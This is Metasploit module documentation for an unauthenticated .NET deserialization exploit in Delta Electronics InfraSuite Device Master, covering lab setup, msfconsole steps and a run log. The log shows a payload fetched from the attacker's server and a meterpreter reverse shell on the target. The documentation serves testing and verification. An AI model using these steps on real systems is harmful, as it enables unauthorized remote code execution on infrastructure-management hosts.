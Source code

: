 ## Vulnerable Application

Delta Electronics InfraSuite Device Master versions below `v1.0.5` are vulnerable to
an unauthenticated .NET deserialization vulnerability in the `Device-Gateway-Status` process which
listens on port `10100` and communicates over UDP. Its `ParseUDPPacket()` method reads user-controlled
data and passes what it determines to be the packet header to the `BinaryFormatter.Deserialize()` method without appropriate validation,
resulting in code execution as the user running the `Device-Gateway-Status` process.

### Installation Instructions

1. Unzip and run the installer
2. Install all of the pre-requisites (Stack Builder is not needed) and reboot
3. Click `next` and ensure the three features, `Device-Monitor`, `Device-DataCollect`, and `Device-Gateway` are selected to install
4. The password on the next screen should say `Ems3000!`, but it is not needed for the exploit
5. Click `next`, then `Install`
6. Click `Finish`, then wait for the processing of files to finish
7. Once the previous step is done, ensure `Yes, I want to restart my computer now` is checked and click finish

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/delta_electronics_infrasuite_deserialization`
4. Do: `set RHOST <IP>`
5. Do: `set INFRASUITE_PORT <PORT_NO>`
6. Do: `run`
7. You should get a meterpreter session.

## Options

### INFRASUITE_PORT

This is the option on which the web-based InfraSuite Device Manager listens. It is
only used to check the version of the software to determine exploitability. 80 by default

## Scenarios

### InfraSuite Device Master v01.00.00d on Windows 10 x64

```
msf6 exploit(windows/misc/delta_electronics_infrasuite_deserialization) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting the login page to determine if target is Infrasuite Device Master...
[*] Target is InfraSuite Device Master. Now attempting to determine version.
[+] The target appears to be vulnerable.
[*] Using URL: http://192.168.140.1:8080/xkRhewOXntAgYs
[*] Command Stager progress - 100.00% done (153/153 bytes)
[*] Client 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673) requested /xkRhewOXntAgYs
[*] Sending payload to 192.168.140.187 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.2673)
[*] Sending stage (175686 bytes) to 192.168.140.187
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.187:50409) at 2023-06-05 17:09:29 -0500
[*] Server stopped.

meterpreter > getuid
Server username: DESKTOP-R6RCNHH\space
meterpreter > sysinfo
Computer        : DESKTOP-R6RCNHH
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x86/windows
meterpreter >
```
